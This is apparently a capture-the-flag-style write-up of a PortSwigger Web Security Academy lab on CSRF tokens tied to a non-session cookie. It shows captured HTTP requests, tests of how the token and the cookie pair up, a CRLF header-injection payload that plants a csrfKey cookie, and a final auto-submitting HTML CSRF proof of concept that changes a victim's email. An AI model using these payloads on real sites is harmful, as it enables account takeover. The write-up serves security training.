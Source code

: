 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9b0fa0fc-3538-47a6-9c76-28553367992f)


## Overview :

**CSRF token is tied to a non-session cookie -**

In a variation on the preceding vulnerability, some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. This can easily occur when an application employs two different frameworks, one for session handling and one for CSRF protection, which are not integrated together:
```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

This situation is harder to exploit but is still vulnerable. If the web site contains any behavior that allows an attacker to set a cookie in a victim's browser, then an attack is possible. The attacker can log in to the application using their own account, obtain a valid token and associated cookie, leverage the cookie-setting behavior to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack. 

> The cookie-setting behavior does not even need to exist within the same web application as the CSRF vulnerability. Any other application within the same overall DNS domain can potentially be
leveraged to set cookies in the application that is being targeted, if the cookie that is controlled has suitable scope. For example, a cookie-setting function on staging.demo.normal-website.com
could be leveraged to place a cookie that is submitted to secure.normal-website.com. 

**Some times csrf token is tied to a cookie but this cookie is not related to the session of the user. This happens because the application uses 2 different frameworks one for session handling and one for csrf protection and both aren't integrated together.**


## Solution :


If we update the email of wiener, browser sends a request like this.



```http
POST /my-account/change-email HTTP/2
Host: 0a4800d4041e203a80c1808900a400d7.web-security-academy.net
Cookie: session=ENaW8l1JXay1VOycCiogD09ikVA4OUQL; csrfKey=o1jSFgrHJBIBK6IZt0fvXXuO14fGKSfc
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a4800d4041e203a80c1808900a400d7.web-security-academy.net
Referer: https://0a4800d4041e203a80c1808900a400d7.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=user%40user.net&csrf=ePSGVOTHfJGqkk9DM1m6QhMVn96wdaiu
```

We see that there is a **csrf token parameter in the body of the request & a csrfkey cookie in the header**. Both has two different values.


#### Case 1 - Change session cookie value -

If we change the cookie value, then we get logged out.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/70cb63c0-8c3b-488f-bb16-5cc961e6024e)

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b6414afc-90af-422d-be95-a04c202c32d2)

**If we log in again, we get the same csrf token & also the same csrfkey as before but different session cookie.**

```http
POST /my-account/change-email HTTP/2
Host: 0a8a00fc04a8b93380af175700710093.web-security-academy.net
Cookie: session=4yvqWCiq0KAsmc5SWXhWNaimEGeFT3ye; csrfKey=yHUGj3LY69Q7aCPMTzNCEshBUBSURTfc
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a8a00fc04a8b93380af175700710093.web-security-academy.net
Referer: https://0a8a00fc04a8b93380af175700710093.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=test%40test.com&csrf=I3gIUYvX6OQRl2TypteG8TfEkaCqbYgD
```

From this we can understand that system providing the CSRF protection does not integrate into the session system, but **creates its own type of session that is not in sync**.

#### Check if csrf token is tied to csrf cookie -

- **Give any invalid csrf token**

When we give random csrf token , we get a response stating that the token is invalid. Meaning that the csrfkey and csrf token are tied together.

If the csrf token value is not matched with its pair ie(csrfkey) , then the application rejects the request.


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/dea63e45-b13f-402d-9031-b8c0b76bae5a)

- **Check if we can give any valid token (another user's token)**

Log in to carlos's account in incognito, & get his csrf token & csrfkey value.

csrf token - `A3SRAhW10ulYAujS4LqoGMSAbVtJR1WY`
csrfkey - `DeXLkdkNhCEpCDz5WHWqsRmLrAI6X3wz`

Let's now try to give carlos's csrf token in place of wiener's.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/36817564-833a-4bc2-83c6-5c524c512f2d)

This confirms that **both csrf token and cookie are strictly tied together**

#### **Submit  both the csrf token and csrf key of another user**

If we submit both the csrfkey and csrf token of carlos(another user), then the request is accepted & the email ID is changed.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/2e173d09-b64a-4679-942f-671da4c0b32e)


> CONCLUSION - CSRF token and CSRFKEY cookie are tied together but both are not tied to session cookie !

This happens when application uses 2 different frameworks , 1 for session handling and 1 for csrf token.





### Inject csrfkey cookie value by HTTP header injection

We need to find any functionality that takes user input. IN this case, we have a search functionality.

If we search for any term , we can see from the response that the search we used is getting added as a cookie - `Set-Cookie: LastSearchTerm=hello`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/15699775-2df8-4922-8c3c-c47762559c15)


So with this we can try to inject the csrfkey value.

Use this payload query in the search parameter of the request - `/?search=test%0d%0aSet-Cookie:%20csrf=anytoken%3b%20SameSite=None` which decodes to `/?search=test Set-Cookie: csrfkey=<carlos csrfkey>; SameSite=None`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9d2fedf6-68b0-4c4b-a36d-39c6be058b46)

rom the response we can confirm that we can inject the csrfkey value by HTTP header injection.


Send the above request to POC generator.

> Note that we have only changed the csrf token value to **wiener's token**. The csrfkey value is still the same(carlos's). It has to be injected into victim's session. For this we can use a `<img>` tag, where we load the url along with HTTP header injection payload t**o inject the csrfkey value as wiener's csrf key** . Since there is no image in that url , it will trigger an error. On error it will submit the form.


```html
<img src="https://0a4800d4041e203a80c1808900a400d7.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=DeXLkdkNhCEpCDz5WHWqsRmLrAI6X3wz%3b%20SameSite=None" onerror="document.forms[0].submit()">
```

**Final payload **

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a4800d4041e203a80c1808900a400d7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="A3SRAhW10ulYAujS4LqoGMSAbVtJR1WY" />
      <input type="submit" value="Submit request" />
    </form>
      <img src="https://0a4800d4041e203a80c1808900a400d7.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=DeXLkdkNhCEpCDz5WHWqsRmLrAI6X3wz%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

Deliver the exploit to victim to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/504f4c2c-247a-4db9-8e11-7d018d0622fb)
